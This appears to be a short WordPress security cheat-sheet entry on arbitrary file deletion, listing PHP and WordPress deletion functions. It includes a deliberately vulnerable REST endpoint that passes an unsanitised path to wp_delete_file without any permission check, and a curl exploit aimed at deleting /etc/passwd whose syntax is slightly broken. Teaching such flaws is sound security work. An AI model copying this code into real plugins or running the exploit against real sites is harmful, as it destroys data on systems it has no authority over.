 --------------------

### Arbitrary File deletion

----------------------

- Arbitrary file deletion-:It occurs when an attacker is able to delete files.Devs should always use the `sanitize_file_name` function to sanitize file name.Useful functions-:

- PHP_Related-:

```
unlink()
rmdir()
```

- Wordpress related-:

```
wp_delete_file
wp_delete_from_directory
WP_Filesystem_Direct::delete
Wp_Filesystem_Direct::rmdir
```

- Vulnerable code snippet-:

```php
add_action("init", "rest_init_setup");

function rest_init_setup(){
    register_rest_route( "myplugin/v1", '/deletemedia/', array(
        'methods'                   =>  "POST",
        'callback'                  =>  'delete_media_upload',
        'permission_callback' => '__return_true',
    ) );
}

function delete_media_upload($request){
    $args = json_decode($request->get_body(),true);
    $data = array('status'=>false);
    if(!empty($args['media']) ){
        wp_delete_file( $args['media']['file'] ); //Vulnerable function
        $data = array('status'=>true);
    }
    return new WP_REST_Response( $data, 200 );
}
```

- Exploit with curl-:

```bash
curl -u <url>/myplugin/v1/deletemedia -H "Content-Type: application/json" -d '{"media":{"file":"/etc/passwd"}'
```

----------------
